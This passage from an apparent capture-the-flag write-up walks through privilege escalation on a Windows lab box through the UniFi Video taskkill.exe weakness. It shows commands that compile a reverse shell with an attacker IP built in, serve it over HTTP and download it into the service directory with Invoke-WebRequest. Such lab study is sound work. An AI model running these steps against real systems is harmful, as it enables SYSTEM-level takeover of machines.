 Great! We can transfer files if we need to, let's poke around the file system and see that there is a file in the Stacy's Documents directory we started in called `unifivideo` with the contents "stop"

After researching to see if there are any known vulnerabilities for unifivideo we come across [https://www.exploit-db.com/exploits/43390](https://www.exploit-db.com/exploits/43390). We can see if this box could be vulnerable by following the instructions and running `icacls` on the file:
```
PS C:\users\stacy\Downloads> icacls c:\ProgramData\unifi-video
c:\ProgramData\unifi-video NT AUTHORITY\SYSTEM:(I)(OI)(CI)(F)
                           BUILTIN\Administrators:(I)(OI)(CI)(F)
                           CREATOR OWNER:(I)(OI)(CI)(IO)(F)
                           BUILTIN\Users:(I)(OI)(CI)(RX)
                           BUILTIN\Users:(I)(CI)(WD,AD,WEA,WA)
 
Successfully processed 1 files; Failed processing 0 files
```

The output looks the same to me, reading the rest of the exploit we can see that when the service starts or stops, it looks for and (if possible) runs the executable C`:\ProgramData\unifi-video\taskkill.exe`. By default and in our case does not exist, so currenlty nothing happens. The exploit-db article also mentions that when the task executes this file it is run under the NT AUTHORITY\SYSTEM context. 

This is the machine that triggered us to write our custom rev.exe reverse shell that we have demoed in a few streams while Giddy was still active. [https://github.com/thosearetheguise/rev](https://github.com/thosearetheguise/rev)

Cloning the repo and building the source into a compiled exe we are then able to use PowerShell to transfer it over to the box as taskkill.exe.

On the attackers box, we clone and build the binary, then host it:
```
root@kali: git clone https://github.com/thosearetheguise/rev
...
root@kali: cd rev
root@kali rev: i686-w64-mingw32-g++ rev.c -o taskkill.exe -lws2_32 -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -DIP=\"10.10.14.18\" -DPORT=8080
root@kali rev: python -m SimpleHTTPServer 80
...
```

Once we have a compiled exe we need to get it on the box using the powershell `Invoke-WebRequest` command we tried earlier and verify that it was downloaded correctly.
```
PS C:\users\Stacy\Downloads> Invoke-WebRequest "http://10.10.14.18/taskkill.exe" -OutFile "C:\ProgramData\unifi-video\taskkill.exe"
PS C:\users\Stacy\Downloads> dir C:\ProgramData\unifi-video\
    Directory: C:\ProgramData\unifi-video
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        6/16/2018   9:54 PM                bin
...                                          
-a----        1/9/2019   11:54 PM          13312 taskkill.exe
-a----        6/16/2018   9:54 PM            780 Ubiquiti UniFi Video.lnk
-a----        7/26/2017   6:10 PM          48640 UniFiVideo.exe
-a----        7/26/2017   6:10 PM          32038 UniFiVideo.ico
-a----        6/16/2018   9:54 PM          89050 Uninstall.exe                                            
```             
